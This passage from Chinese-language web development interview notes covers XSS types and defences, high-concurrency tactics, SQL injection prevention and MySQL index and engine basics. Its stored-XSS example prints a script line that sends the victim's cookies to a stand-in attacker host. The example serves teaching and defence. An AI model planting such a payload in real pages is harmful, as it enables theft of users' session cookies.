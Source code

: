 **防御措施：前后端分离，对HTML转义，设置Cookie的时候开启HttpOnly（缓解）**

* 存储型，比如发布一篇文章里面有以下内容
```js
<script>window.open("www.gongji.com?param="+document.cookie)</script>
```
* 反射型
攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击链接的时候，注入脚本被传入到目标服务器上，然后服务器将注入脚本反射到受害者的浏览器上，浏览器执行该脚本
* DOM型
通过修改原始的客户端代码，受害者浏览器的 DOM 环境改变，导致有效载荷的执行。也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。

#### 5.高并发解决方案
前端：
* 减少HTTP请求
* 使用异步请求
* 启用浏览器缓存和文件压缩
* CDN加速

服务端：
* 页面静态化
* 队列处理

数据库
* 使用缓存
* 分表
服务器
* 负载均衡
#### 6.如何防止SQL注入
* 根据数据类型进行严格验证
* PHP的PDO可以进行参数化绑定

#### 7.mysql引擎
myisam和innodb
* innodb支持事务，还支持行级锁和外键
* innodb索引和文件放一起，是聚簇式设计
#### 8.mysql索引
从数据角度来看
* B+数索引
* 哈希索引
从逻辑角度看
* 主键索引
* 单列索引
* 多列索引，或者叫复合索引
#### 9.mysql索引优化
* 列越小越快
* 枚举类型代替varchar
* 避免null值
* 合理设置索引
* 考虑分表（如垂直分表）
#### 10.mysql索引失效
* like查询以%开头
* 在索引列上使用IS NULL操作
* 在索引列上使用not、!= 操作
* OR语句前后没有同时使用索引
#### 11.mysql死锁
两个或者多个事务执行过程中，因为互相等待对方持有的自愿，通常是表锁或者行锁，而陷入一直等待的状态。
